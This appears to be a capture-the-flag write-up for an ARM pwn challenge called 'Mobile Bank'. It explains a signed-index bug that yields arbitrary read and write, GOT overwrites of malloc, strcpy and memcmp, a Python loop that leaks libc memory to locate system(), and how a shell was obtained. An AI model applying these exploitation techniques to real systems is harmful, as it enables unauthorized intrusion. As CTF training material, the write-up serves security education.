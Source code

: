 # Mobile Bank

In this task we are single binary and tcp server to connect to.

## Solution

![checksec.png](checksec.png)

Since its arm binary, I will use qemu to run it, looks like that:

![menu.png](menu.png)

Lets now explore all those functions in IDA(I added names, binary is stripped). There is also one hidden option, but it turned out it wasn't needed.

```c
int __fastcall sub_11284(int a1, int a2)
{
  int v2; // r0
  int v3; // r1

  setup();
  print_ascii_art();
  while ( 1 )
  {
    print_menu();
    v2 = get_int();
    switch ( v2 )
    {
      case 0:
        puts("Bye!");
        cleanup();
        return 0;
      case 1:
        print_info(v2, v3);
        break;
      case 2:
        set_acc_id();
        break;
      case 3:
        set_acc_note();
        break;
      case 4:
        make_transaction();
        break;
      case 5:
        print_account_info();
        break;
      case 6:
        enable_debug(v2, v3);
        break;
      case 7:
        if ( debug )
          debug_function(v2, v3);
        else
          puts("Invalid command!");
        break;
      default:
        puts("Invalid command!");
        break;
    }
  }
}
```

Function `get_int` reads from `stdin` and uses `atoi` to convert input to int. Looking at function `set_acc_id` we can see that is checks upper bound(`result > 15`), but its signed comparison and it doesn't check if input is lower than 0.

```c
signed int set_acc_id()
{
  signed int result; // r0

  printf("Enter account id: ");
  result = get_int();
  if ( result > 15 )
    return puts("Wrong account id!");
  acc_id = result;
  return result;
}
```

Exploring more, You can notice there is global array of (int, pointer) pairs. Let's look at `set_acc_note`, `make_transaction` and `print_account_info` functions.
```c
char *set_acc_note()
{
  char *dest; // ST08_4
  char *result; // r0
  size_t v2; // [sp+4h] [bp-110h]
  char src; // [sp+Ch] [bp-108h]

  printf("Enter account note: ");
  v2 = read_from_stdin(&src, 256);
  if ( global_arr[2 * acc_id + 1] )
  {
    free(global_arr[2 * acc_id + 1]);
    global_arr[2 * acc_id + 1] = 0;
  }
  dest = (char *)malloc(v2 + 1);
  result = strcpy(dest, &src);
  global_arr[2 * acc_id + 1] = dest;
  return result;
}
```

```c
int make_transaction()
{
  int result; // r0

  printf("Enter transaction value: ");
  result = get_int();
  global_arr[2 * acc_id] = (char *)global_arr[2 * acc_id] + result;
  return result;
}
```

```c
int print_account_info()
{
  void *v0; // r3
  char s; // [sp+Ch] [bp-158h]

  if ( global_arr[2 * acc_id + 1] )
    v0 = global_arr[2 * acc_id + 1];
  else
    v0 = &unk_1196C;
  snprintf(&s, 0x150u, "id: %u, value: %d$, note:\"%s\"", acc_id, global_arr[2 * acc_id], v0);
  return puts(&s);
}
```

Note that since  `acc_id` can be < 0, we have (almost) arbitrary write using `make_transaction` function, we can write only to adresses divisible by 8. Also using `print_account_info` we have arbitrary read, limited to adresses divisible by 8, but also only when `%s` doesn't trigger `SIGSEGV`.  If challenge authors provided us libc used on the server, we could exploit leaking libc base address and overriting some GOT entry with `system` address, and then calling `system("/bin/sh")`, so the only thing we need is `system` offset. I tried to leak libc functions adresses and then look at some libc database, but I couldn't find anything, also I tried to look at my libc offsets and subtract then from leaked addresses, but it doesn't look right:
```
malloc: 0xb6d39fb8
strcpy: 0xb6d39b20
```
We have to notice that offsets don't change that much between versions, result is approximately correct, so probably libc base is `0xb6d39000`. To verify that, we need real arbitrary read primitive, to get that, we can:
1. Overrite `malloc` GOT entry to `get_int` address.
2. Overrite `strcpy` GOT entry to some NOP function to prevent `SIGSEGV` in `set_acc_note`(we can also use next intruction after `strcpy` call).

Now we fully control the pointer which is used with `%s` format is `print_account_info`. Lets use that to look at first few bytes of guessed libc base:
![elf.png](elf.png)
It's ELF header, so my hypothesis was correct. Now the plan is following:

1. Find `system` offset in my local libc.
2. Leak some memory starting somewhere near libc_base + system_offset.
3. Find `system` addres by it's signature.

Saddenly, out leaking function is `snprintf`, which stops on null byte, which means we will have to write a script and leak those bytes in a loop.

```python
guess_system_addr = libc_base_guess + SYSTEM_OFFSET

res = read('out2')
cnt =  len(res)
set_acc_id(2)

for i in  range(10000):
print i
set_acc_note('asdf', ctypes.c_int(guess_system_addr + cnt).value)
_, note = print_acc_info()
note +=  '\x00'
cnt +=  len(note)
res += note
if i %  10  ==  0:
	with  open('out2', 'wb') as f:
	f.write(res)
```

I loaded my local libc version in IDA and checked first 2 bytes of `system`.  After few minutes of leaking, I checked if they are present in leaked memory, and yes they are.
```
In [23]: leaked_mem.find('\x00\xb1')                               
Out[23]: 1412
```
it could be false positive since 3rd byte wasnt correct, but I manually checked few other bytes and they seemed correct. Now, I overwritten memcmp GOT entry to the `system` adress, and using this code in `enable_debug` function
```c
...
printf("Enter password: ");
read(0, &buf, 0x10u);
if ( !memcmp(&buf, &unk_22108, 0x10u) )
...
```

triggered `system("/bin/sh")`.

This solution was probably unintended, since I've never used hidden `debug_function`(we could easily enable it by writing something else than 0 to the `debug` variable), which was vulnerable to buffer overflow.

```c
int debug_function()
{
  size_t n; // ST14_4
  char *v1; // r3
  char *v3; // [sp+Ch] [bp-218h]
  char *v4; // [sp+Ch] [bp-218h]
  signed int i; // [sp+10h] [bp-214h]
  char *v6; // [sp+18h] [bp-20Ch]
  char s; // [sp+1Ch] [bp-208h]
  int v8; // [sp+21Ch] [bp-8h]

  memset(&s, 0, 0x200u);
  v3 = &s;
  for ( i = 0; i <= 15; ++i )
  {
    v4 = &v3[snprintf(v3, (char *)&v8 - v3, "%u\t%d$\t", i, global_arr[2 * i])];
    v6 = (char *)global_arr[2 * i + 1];
    if ( v6 )
    {
      n = strlen(v6);
      memcpy(v4, v6, n);
      v4 += n;
    }
    v1 = v4;
    v3 = v4 + 1;
    *v1 = 10;
  }
  puts("*******************$$$Debug$$$******************");
  printf("%s", &s);
  return puts("************************************************");
}
```
I didn't want to use that since there is stack canary, I'm not familiar with arm assembly, and jumping to `system` just seemed easier.
I also believe you could somehow find that libc version, in some database, but it was pretty fun to leak it and find offset myself.



